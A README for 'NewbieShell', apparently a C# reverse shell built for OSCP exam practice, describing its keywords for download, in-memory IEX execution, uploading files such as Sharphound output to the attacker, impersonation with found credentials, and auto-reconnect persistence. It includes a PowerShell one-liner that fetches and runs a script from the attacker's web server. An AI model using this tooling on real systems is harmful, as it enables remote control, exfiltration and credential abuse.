 # NewbieShell
## Reverse shell for beginners

When preparing for the OSCP certificate, I mostly used Netcat and an msfvenom payload for a connection. The most annoying thing for me was that downloading and uploading software required a very long text. Furthermore, when the connection was interrupted, I had to rebuild the connection most of the time. Since I like to program in C#, I thought I could simplify this. With this idea the NewbieShell was born. The goal was to execute code with short keywords, like download. This saves the attacker time and nerves. Moreover, as the name "NewbieShell" suggests, this software is also intended for beginners. 

## Usage

There are three ways to use NewbieShell. The simple method in the Console.

```
NewbieShell.exe
```

In this method the program asks for an IP address, port and whether to use cmd.exe or powershell.exe as return.

The second option is to use NewbieShell like Netcat.

```
Newbieshell.exe <ip> <port> <cmd.exe or powershell.exe>
```

Example: NewbieShell.exe 192.168.0.1 80 cmd.exe

If Powershell.exe is executed, then NewbieShell executes the command "-ep bypass" in the background. This sets the ExecutionPolicy to bypass.

The third option is via a ps1 file. It is possible to run a web server on the attacker machine and then execute the code with the Powershell IEX command. Please note that in this option the IP address and the port on the ps1 file should be changed.

```
powershell -c "(iex (New-Object System.Net.Webclient).DownloadString('http://ip/NewbieShell.ps1'))"
```

### NewbieShell Console
All Windows commands can be inserted normally. For example, if you want to download something from a web server, then you have the possibility to execute a download with so-called keywords. The keyword for download is #D

After entering the keyword, a query comes from the system about which file it is and so on. Further information can be found below in the documentation.

#### Temp Folder

The first time NewbieShell connects, a folder is set up under the path C:\temp. This folder is where all data is stored/downloaded

#### Download - Keyword #D

As already described above, the keyword #D is the download function. NewbieShell specifies that a web server should be running on the attacker's side. The "http.server" based on Python3, is available by default on Kali Linux. With this command a web server can be executed on the attacker machine.

```
python3 -m http.server 80
```

In the next step, the software will ask for the file that should be downloaded.
Because NewbieShell knows the IP address of the attacker. The query for the attacker IP address is omitted.

If the file has been downloaded, it can be found in the C:\temp directory.

#### IEX - Keyword #IEX

The IEX command is often used to execute malware. For example, a .ps1 file is executed without saving the file to the hard disk.
As with the download function, a web server is required. This should be executed on the attacker's computer. 

#### Upload - Keyword #U

I often had the case that I wanted to upload files such as Sharphound files to my attacker PC. I did not always want to use an SMB share. I have thought about whether this is easier. Unfortunately, the upload - function does not work with the standard Python3 "http.server", because this web server does not accept post - function. But there is another webserver which can do this. This can be easily installed with this command on the attacker side.

```
pip3 install uploadserver
```

After the web server or upload server is installed, then it can be run on the attacker machine.

```
python3 - m uploadserver 80
```

For info NewbieShell accurately indicates that the upload server should be installed and running.

NewbieShell requests the full path of the file. After a successful upload, the file should be discoverable on the attacker's site.

#### Impersonation - Keyword #I

If you have found any credentials during the attack, you have the possibility to generate a new shell with these credentials using NewbieShell.
The system will ask for the username, password and domain. If there is no domain, this line can be left blank.

#### Persistence - Keyword #P

After a disconnection, the program tries to reconnect to the attacker. A timeout period can be defined for this. After this time the program sends a new request to the attacker.

## Future

My goal would be to generate as many keywords as possible.
